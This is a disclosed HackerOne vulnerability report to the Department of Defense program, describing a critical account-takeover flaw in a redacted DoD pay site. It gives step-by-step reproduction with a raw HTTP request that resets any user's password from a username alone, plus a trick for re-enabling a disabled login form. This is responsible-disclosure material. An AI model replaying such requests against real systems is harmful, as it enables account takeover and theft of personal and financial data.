 # ████ - Complete account takeover

## Report Details
- **Report ID**: 566811
- **URL**: https://hackerone.com/reports/566811
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-05-04T23:06:13.482Z
- **Disclosed**: 2020-05-11T16:49:56.744Z

## Reporter
- **Username**: cablej_dds
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**

███████ ██████████ was updated today (03/04), which includes a backend rewrite. Unfortunately, the new site is insecure and allows a password to be reset given only a username. This allows access to payment records for any DoD employee given only their username, which is commonly known. Further, ███ is used to authenticate to other sites such as ██████. Thus, this allows access to the complete ████████ record and other associated information (despite ████████ stating that ██████████ login is disabled, it still works).

## Impact

Trivial and complete compromise of any/all ████████ ███████ accounts, resulting in exposure and modification of sensitive financial records for all DoD civilian/military personnel. For instance, this exposes partial social security numbers, personal addresses, and pay history, and allows stealing funds by changing direct deposit information. Further, via associated sites (█████), this exposes the ██████ of all military service members.

## Step-by-step Reproduction Instructions

1. Visit https://████████/ and intercept a request to obtain valid cookies.
2. Make the following request, replacing the cookies with your new cookies if needed:

```
POST /api/session/personalsettings/ForgotPasswordChangeRequest HTTP/1.1
Host: ███
Connection: close
Content-Length: 151
Accept: application/json, text/plain, */*
Origin: https://█████████
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Content-Type: application/json
Referer: https://████████/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: LastMRH_Session=█████; F5_ST=██████; MRHSession=████████████████████

{"Username":"x","Password":"y","IsLimitedAccessAccount":false,"HasNagC":false,"HasNagF":false,"HasNagM":false,"HasNagN":false}
```

3. Enter any user's username and a new password.
4. Submit the request. The user's password will be overwritten to the new password, and you may now log in.
5. Visit https://██████/milconnect/. Select to log in via █████. Despite the message saying it is disabled, edit the form via developer tools to enable both text boxes and the login button. Enter the user's credentials.
6. The login will be successful, allowing full access to the user's ███.

## Suggested Mitigation/Remediation Actions

Enforce social security number / security questions / email verification.

## Impact

.

## Attachments
No attachments
